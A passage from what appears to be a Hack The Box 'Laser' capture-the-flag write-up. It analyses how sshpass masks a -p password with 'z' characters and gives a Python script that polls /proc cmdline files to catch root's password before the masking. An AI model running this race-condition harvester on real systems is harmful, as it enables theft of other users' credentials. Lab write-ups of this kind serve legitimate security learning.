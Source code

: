```c
                    "\n"
                    "Using \"%s\" as the default password prompt indicator.\n", PACKAGE_STRING, PASSWORD_PROMPT );
        exit(0);
        break;
    }
    }

    if( error>=0 )
    return -(error+1);
    else
    return optind;
}
```

After analyzing the source code, I found out that the `-p` option takes in the original password from argument input and obfuscates it by replacing each character with a 'z', one character at a time. In the `ps aux` output I got earlier I saw the command `sshpass -p zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzz` followed by the SCP command the password was being supplied to.  Since the command is originally input with the password in plaintext, the race condition exists where the plaintext password must be able to be read from memory prior to being obfuscated.

```text
┌──(zweilos㉿kali)-[~/htb/laser]
└─$ echo -n zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzz | wc -c
32
```

I copied the string of 'z's from the output to check its length.  The password was 32 characters long.  I tried logging in with `passwordpasswordpassword` but no luck...

### Getting root's password

```python
import os
while(1):
  pids = [x for x in os.listdir('/proc') if x.isdigit()]
  for pid in pids:
      if int(pid) > 10000:
        try:
          with open("/proc/%s/cmdline" % pid) as f:
            data = f.read()
        except EnvironmentError as e:
          #print(e)
          pass
        else:
          if data and 'sshpass' in data and 'zzz' not in data:
            print(repr(data))
            print("")
```

I wrote a python script to read the contents of each process in `/procs` and see if they had a `cmdline` file in them. If the file existed then it looked in the data for the word `sshpass`. Then, if it found that command it would check to see if that process also contained multiple 'z' characters, and if not, would print the command line that made that process.

